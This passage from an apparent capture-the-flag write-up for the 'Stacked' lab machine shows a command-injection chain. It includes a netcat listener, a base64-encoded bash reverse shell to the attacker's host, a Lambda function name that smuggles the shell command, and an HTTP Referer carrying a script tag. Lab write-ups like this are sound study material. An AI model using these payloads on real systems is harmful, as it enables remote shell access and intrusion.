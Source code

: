 ```bash
$ sudo nc -nlvp 80
listening on [any] 80 ...
connect to [10.10.14.61] from (UNKNOWN) [10.129.140.39] 33414
GET / HTTP/1.1
Host: 10.10.14.61
User-Agent: Wget
Connection: close
```

Command injection is confirmed. Create a base64-encoded reverse shell command. Create a new Lambda function whose name injects the base64-encoded reverse shell command. Trigger the CSRF and execution of the command to receive a reverse shell.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
```

```bash
$ echo -n 'bash -i >& /dev/tcp/10.10.14.61/443 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42MS80NDMgMD4mMQ==
```

```bash
$ aws --endpoint-url=http://s3-testing.stacked.htb lambda create-function --function-name 'tgihf; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42MS80NDMgMD4mMQ==|base64 -d|bash' --zip-file fileb://function.zip --handler index.handler --runtime nodejs12.x --role lambda-ex
{
    "FunctionName": "tgihf; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42MS80NDMgMD4mMQ==|base64 -d|bash",
    "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:tgihf; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42MS80NDMgMD4mMQ==|base64 -d|bash",
    "Runtime": "nodejs12.x",
    "Role": "lambda-ex",
    "Handler": "index.handler",
    "CodeSize": 317,
    "Description": "",
    "Timeout": 3,
    "LastModified": "2022-03-20T06:46:27.984+0000",
    "CodeSha256": "8nUEIrrafkyKgs2i/sh63Fevj2kYkbIyFPFI5M0o6Dk=",
    "Version": "$LATEST",
    "VpcConfig": {},
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "RevisionId": "9730a66c-700a-4579-abbd-98b63effa15c",
    "State": "Active",
    "LastUpdateStatus": "Successful",
    "PackageType": "Zip"
}
```

```bash
POST /process.php HTTP/1.1
Host: portfolio.stacked.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 140
Origin: http://portfolio.stacked.htb
Connection: close
Referer: <script>document.location = "http://127.0.0.1:8080"</script>

```